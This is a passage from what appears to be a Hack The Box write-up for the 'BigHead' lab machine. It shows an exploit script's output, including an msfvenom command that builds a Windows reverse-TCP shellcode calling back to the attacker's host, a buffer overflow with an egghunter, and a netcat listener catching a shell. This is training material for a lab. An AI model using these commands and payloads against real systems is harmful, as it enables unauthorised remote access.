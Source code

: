 But, it works:

```

root@kali# python pwn_bighead.py dev.bighead.htb 80 10.10.14.14 443
[*] Generating shellcode:
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXIT_FUNC=THREAD -a x86 --platform windows -b "\x00\x0a\x0d" -f python -v shellcode -o sc.py
[+] Shellcode generated successfully
[*] Sending payload 5 times
[+] Opening connection to dev.bighead.htb on port 80: Done
[*] Closed connection to dev.bighead.htb port 80
[+] Opening connection to dev.bighead.htb on port 80: Done
[*] Closed connection to dev.bighead.htb port 80
[+] Opening connection to dev.bighead.htb on port 80: Done
[*] Closed connection to dev.bighead.htb port 80
[+] Opening connection to dev.bighead.htb on port 80: Done
[*] Closed connection to dev.bighead.htb port 80
[+] Opening connection to dev.bighead.htb on port 80: Done
[*] Closed connection to dev.bighead.htb port 80
[+] Payload sent.
[*] Sleeping 1 second.
[*] Sending overflow + egghunter.
[*] Expect callback in 0-15 minutes to 10.10.14.14:443.
[+] Opening connection to dev.bighead.htb on port 80: Done

```

A few minutes later:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.112.
Ncat: Connection from 10.10.10.112:49200.
Microsoft Windows [Version 6.0.6002]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\nginx>whoami
piedpiper\nelson

```

[« BigHead Walkthrough](/2019/05/04/htb-bighead.html)